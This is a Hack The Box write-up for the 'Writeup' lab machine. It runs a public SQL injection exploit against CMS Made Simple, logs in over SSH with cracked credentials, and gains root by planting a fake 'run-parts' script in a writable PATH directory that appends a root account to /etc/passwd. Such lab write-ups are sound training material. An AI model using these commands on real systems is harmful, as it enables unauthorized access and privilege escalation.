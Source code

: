 # 🧪 Writeup – Hack The Box

**Platform:** Hack The Box  
**Difficulty:** Easy  
**IP Address:** 10.10.10.138  
**Date Completed:** [Insert Date]  

---

## 🧭 Overview

Writeup is an Easy-rated Linux machine that features a web application powered by CMS Made Simple. A SQL injection vulnerability allows us to extract credentials and gain SSH access. Privilege escalation is achieved by exploiting the `run-parts` mechanism used in SSH login scripts. By taking advantage of writable paths in `PATH`, a fake `run-parts` script is used to insert a root-level user into `/etc/passwd`.

---

## 🔍 Enumeration

### 🔎 Nmap

```bash
nmap -sV -sT -sC -o nmapinitial writeup.htb
```

```
22/tcp open  ssh     OpenSSH 7.4p1 Debian
80/tcp open  http    Apache httpd 2.4.25
```

Found `/writeup` via `robots.txt`, which revealed a CMS Made Simple site.

---

## 🪜 Foothold

### 📦 Web Exploitation

Identified **CMS Made Simple** via meta tag. Used a known SQLi exploit from 2019:

```bash
python 46635.py -u http://writeup.htb/writeup/ --crack -w /usr/share/wordlists/rockyou.txt
```

Extracted:
- Username: `jkr`
- Password (cracked): `raykayjay9`

### 🔑 SSH Access

```bash
ssh jkr@writeup.htb
# password: raykayjay9
```

📄 `user.txt`  
`1c0a66ed************************`

---

## ⚙️ Privilege Escalation

- Used `pspy32` to monitor processes
- Observed `run-parts` execution on SSH login:
```bash
sh -c /usr/bin/env -i PATH=... run-parts ...
```

- Verified `jkr` is in `staff` group, which has write access to `/usr/local/bin`

### 🛠 Exploit

1. Created malicious `run-parts` script:
```bash
#!/bin/bash
echo 'rooot:gDlPrjU6SWeKo:0:0:root:/root:/bin/bash' >> /etc/passwd
```

2. Saved it to `/usr/local/bin/run-parts` and made it executable
3. Reconnected via SSH to trigger execution
4. Used OpenSSL to generate password hash:
```bash
openssl passwd AAAA
# gDlPrjU6SWeKo
```

5. Switched to new root user:
```bash
su rooot
# password: AAAA
```

📄 `root.txt`  
`f8d7f60a************************`

---

## 🧠 Lessons Learned

- CMS Made Simple had known SQLi exploits that yield credential hashes
- `PATH` order and writable directories can be abused to hijack root-owned scripts
- `pspy` is invaluable for catching real-time privilege escalation triggers

---

## 📸 Proof

![writeup.png](https://raw.githubusercontent.com/inkedqt/ctf-writeups/main/HTB/proofs/writeup.png)